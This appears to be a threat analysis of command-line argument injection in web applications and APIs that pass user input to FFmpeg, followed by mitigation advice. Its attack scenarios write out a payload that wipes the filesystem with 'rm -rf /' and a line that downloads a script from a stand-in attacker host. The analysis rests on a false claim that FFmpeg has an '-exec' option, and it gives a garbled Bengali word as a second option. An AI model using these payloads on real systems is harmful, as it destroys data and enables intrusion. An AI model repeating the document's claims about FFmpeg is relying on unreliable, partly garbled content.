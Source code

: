 ## Deep Analysis of Insecure Command-Line Argument Injection Threat in Application Using FFmpeg

**Objective of Deep Analysis:**

The primary objective of this deep analysis is to thoroughly understand the "Insecure Command-Line Argument Injection" threat within the context of an application utilizing the FFmpeg library. This includes dissecting the attack mechanism, evaluating its potential impact, identifying vulnerable areas in the application's interaction with FFmpeg, and reinforcing the importance of the proposed mitigation strategies. We aim to provide actionable insights for the development team to effectively address this critical vulnerability.

**Scope:**

This analysis focuses specifically on the threat of insecure command-line argument injection when an application constructs and executes FFmpeg commands based on user-provided input. The scope includes:

*   Understanding how FFmpeg parses and executes command-line arguments.
*   Identifying potential injection points within the application's code where user input is incorporated into FFmpeg commands.
*   Analyzing the potential impact of successful command injection, specifically focusing on arbitrary command execution.
*   Evaluating the effectiveness of the proposed mitigation strategies.
*   Providing recommendations for secure implementation practices.

This analysis **does not** cover vulnerabilities within the FFmpeg library itself, such as buffer overflows or other security flaws in its internal code. Our focus is solely on the application's insecure usage of FFmpeg's command-line interface.

**Methodology:**

This deep analysis will employ the following methodology:

1. **Threat Description Review:**  A thorough review of the provided threat description to establish a baseline understanding of the vulnerability.
2. **FFmpeg Command-Line Structure Analysis:** Examination of FFmpeg's command-line syntax and options, particularly those that could be exploited for malicious purposes (e.g., `-exec`, `- আশ্রয়`).
3. **Potential Injection Point Identification:**  Hypothesizing and identifying potential locations within the application's codebase where user input might be directly incorporated into FFmpeg command strings. This involves considering various input sources (e.g., web forms, API calls, file uploads).
4. **Attack Vector Simulation:**  Developing hypothetical attack scenarios to demonstrate how an attacker could craft malicious input to inject commands.
5. **Impact Assessment:**  Detailed analysis of the potential consequences of successful command injection, considering the application's environment and privileges.
6. **Mitigation Strategy Evaluation:**  Critically assessing the effectiveness of the proposed mitigation strategies and suggesting best practices for their implementation.
7. **Secure Coding Recommendations:**  Providing specific recommendations for secure coding practices to prevent this type of vulnerability.

---

## Deep Analysis of Insecure Command-Line Argument Injection Threat

**Threat Description Breakdown:**

The core of this threat lies in the application's practice of dynamically constructing FFmpeg command-line arguments using unfiltered or unsanitized user input. FFmpeg, being a powerful multimedia framework, offers a vast array of command-line options to control its behavior. While this flexibility is beneficial for legitimate use cases, it becomes a significant security risk when user-controlled data directly influences these options.

The `-exec` option, specifically mentioned in the description, is a prime example of a dangerous feature in this context. It allows FFmpeg to execute external commands during its processing. If an attacker can inject this option with their own malicious command, they can effectively gain arbitrary code execution on the server hosting the application.

**Attack Vectors and Scenarios:**

Consider the following scenarios where this vulnerability could be exploited:

*   **Web Application with File Conversion:** A web application allows users to upload video files and convert them to different formats using FFmpeg. The application might construct the FFmpeg command based on user-selected output format and other options. An attacker could inject `-exec 'bash -c "rm -rf /"'` into an input field intended for a codec or bitrate setting.
*   **API Endpoint for Media Processing:** An API endpoint accepts parameters to process media files. If the application directly uses these parameters to build the FFmpeg command, an attacker could inject malicious options through the API. For example, injecting `- আশ্রয় 'http://attacker.com/malicious_script.sh'` could download and execute a script on the server.
*   **Command-Line Tool with User-Provided Arguments:** If the application itself is a command-line tool that takes user arguments and passes them to FFmpeg, similar injection attacks are possible.

**Technical Details of the Vulnerability:**

The vulnerability stems from the lack of proper input validation and sanitization before user-provided data is incorporated into the FFmpeg command string. When the application executes this constructed command using functions like `system()`, `exec()`, or similar process execution mechanisms, the operating system interprets the entire string, including the injected malicious options.

FFmpeg's command-line parser is designed to be flexible and powerful, but it doesn't inherently distinguish between legitimate options and malicious injections. It simply processes the provided arguments in order. This makes it crucial for the *application* to enforce strict control over the arguments passed to FFmpeg.

**Impact Analysis (Detailed):**

The impact of successful command-line argument injection can be catastrophic, leading to:

*   **Arbitrary Command Execution:** As highlighted, this is the most severe consequence. Attackers can execute any command with the privileges of the user running the application. This could involve installing malware, creating backdoors, manipulating data, or disrupting services.
*   **Data Breach:** Attackers could use injected commands to access sensitive data stored on the server, including databases, configuration files, and user data. They could then exfiltrate this data to external locations.
*   **System Compromise:**  Complete control over the server could be gained, allowing attackers to modify system configurations, create new user accounts, or even wipe the system.
*   **Denial of Service (DoS):**  Attackers could inject commands that consume excessive resources (CPU, memory, disk I/O), leading to a denial of service for legitimate users.
*   **Lateral Movement:** If the compromised server has access to other internal systems, the attacker could use it as a stepping stone to further compromise the network.

**Affected Component (Elaboration):**

While the threat description correctly identifies the parsing logic within the FFmpeg executable as the affected component *from FFmpeg's perspective*, the **root cause of the vulnerability lies within the application's code**. Specifically, the vulnerable component is the section of the application's code responsible for:

1. **Receiving User Input:**  Any part of the application that accepts user-provided data intended to influence FFmpeg's behavior.
2. **Constructing the FFmpeg Command:** The logic that concatenates strings and variables to form the final FFmpeg command-line string. This is where the injection occurs if user input is not properly handled.
3. **Executing the FFmpeg Command:** The function call (e.g., `system()`, `subprocess.run()`) that executes the constructed command.

**Risk Severity (Justification):**

The "Critical" risk severity is absolutely justified due to the potential for arbitrary command execution. This level of access allows attackers to completely compromise the confidentiality, integrity, and availability of the application and the underlying system. The ease with which such attacks can be launched, combined with the potentially devastating consequences, makes this a high-priority security concern.

**Mitigation Strategies (Detailed):**

The proposed mitigation strategies are crucial and should be implemented diligently:

*   **Avoid Constructing Command-Line Arguments Directly from User Input:** This is the most effective approach. Instead of directly embedding user input into the command string, explore alternative methods.
    *   **Use a Safe API or Library Bindings:**  Many programming languages offer libraries or APIs that provide a safer way to interact with FFmpeg, often by abstracting away the direct command-line interface. These libraries typically handle argument escaping and validation internally.
    *   **Predefined Command Templates:**  Define a set of allowed command templates with placeholders for user-provided values. This limits the attacker's ability to inject arbitrary options.
*   **Use a Well-Defined Set of Allowed Options (Whitelisting):** If direct command construction is unavoidable, strictly limit the allowed options and their possible values. Implement robust validation to ensure user input conforms to these predefined rules. Reject any input that doesn't match the whitelist.
*   **Escape or Sanitize User-Provided Values Used in Command-Line Arguments:** If user input must be included in the command, use proper escaping or sanitization techniques specific to the operating system's shell. This involves escaping special characters that have meaning in the shell (e.g., ``, `'`, `"`, `;`, `&`, `|`). However, relying solely on escaping can be complex and error-prone, making the other strategies preferable.

**Additional Recommendations for Secure Implementation:**

*   **Principle of Least Privilege:** Ensure the application runs with the minimum necessary privileges. This limits the impact of a successful command injection.
*   **Input Validation and Sanitization:** Implement rigorous input validation on all user-provided data, regardless of whether it's directly used in FFmpeg commands. This helps prevent other types of vulnerabilities as well.
*   **Code Reviews:** Conduct thorough code reviews, specifically focusing on the sections of code that construct and execute FFmpeg commands. Look for potential injection points and ensure proper sanitization or safe API usage.
*   **Static and Dynamic Analysis:** Utilize static analysis tools to identify potential vulnerabilities in the code. Employ dynamic analysis techniques (e.g., fuzzing) to test the application's resilience against malicious input.
*   **Regular Security Audits:** Conduct regular security audits and penetration testing to identify and address potential vulnerabilities.
*   **Stay Updated:** Keep FFmpeg and all related libraries updated to the latest versions to benefit from security patches.

**Conclusion:**

The "Insecure Command-Line Argument Injection" threat poses a significant risk to applications utilizing FFmpeg. The potential for arbitrary command execution can lead to severe consequences, including data breaches, system compromise, and denial of service. The development team must prioritize the implementation of robust mitigation strategies, focusing on avoiding direct command construction and employing safe APIs or strict input validation and sanitization. A layered security approach, combining secure coding practices, thorough testing, and regular audits, is essential to effectively protect against this critical vulnerability.